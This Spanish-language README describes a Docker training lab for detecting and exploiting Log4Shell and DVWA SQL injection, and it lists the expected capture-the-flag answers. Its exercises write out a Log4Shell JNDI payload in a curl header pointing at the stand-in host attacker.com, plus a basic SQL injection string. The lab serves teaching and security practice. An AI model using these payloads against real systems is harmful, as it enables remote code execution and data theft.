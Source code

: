 
# 🚨 Zero-Day Scanner Lab

## Descripción
Laboratorio diseñado para practicar la detección y explotación de vulnerabilidades críticas recientes, incluyendo Log4Shell y otras CVEs de alto impacto.

## Objetivos de Aprendizaje
- Identificar aplicaciones vulnerables a Log4Shell (CVE-2021-44228)
- Explotar vulnerabilidades web en DVWA
- Usar herramientas de escaneo automatizado (Nuclei, Nmap)
- Comprender el impacto de CVEs críticos

## Servicios Incluidos
- **DVWA**: Aplicación web vulnerable (puerto 8080)
- **Log4Shell App**: Aplicación vulnerable a Log4Shell (puerto 8090)
- **Kali Scanner**: Herramientas de escaneo (SSH puerto 2222)

## Instrucciones de Uso

### 1. Iniciar el Laboratorio
```bash
cd labs/lab-zero-day-scanner
docker-compose up -d
```

### 2. Acceder a los Servicios
- **DVWA**: http://localhost:8080 (admin/password)
- **Log4Shell App**: http://localhost:8090
- **Scanner Tools**: `ssh root@localhost -p 2222`

### 3. Ejercicios Prácticos

#### Ejercicio 1: Log4Shell Detection
```bash
# Conectar al contenedor scanner
docker exec -it zero-day-scanner bash

# Escanear con Nuclei
nuclei -u http://log4shell-vulnerable:8080 -t cves/

# Explotar Log4Shell
curl 'http://log4shell-vulnerable:8080' -H 'X-Api-Version: ${jndi:ldap://attacker.com/a}'
```

#### Ejercicio 2: DVWA SQL Injection
1. Acceder a DVWA
2. Navegar a SQL Injection (Low Security)
3. Probar payload: `1' OR '1'='1' --`
4. Capturar flag en la base de datos

### 4. Flags Esperadas
- `ZERO_DAY{log4shell_rce_success}` - Al explotar Log4Shell exitosamente
- `ZERO_DAY{dvwa_sqli_bypass}` - Al extraer datos vía SQL Injection

### 5. Detener el Laboratorio
```bash
docker-compose down
```

## Recursos Adicionales
- [CVE-2021-44228 Details](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [DVWA Documentation](https://github.com/digininja/DVWA)
- [Nuclei Templates](https://github.com/projectdiscovery/nuclei-templates)

---
**Desarrollado por @descambiado para BOFA**
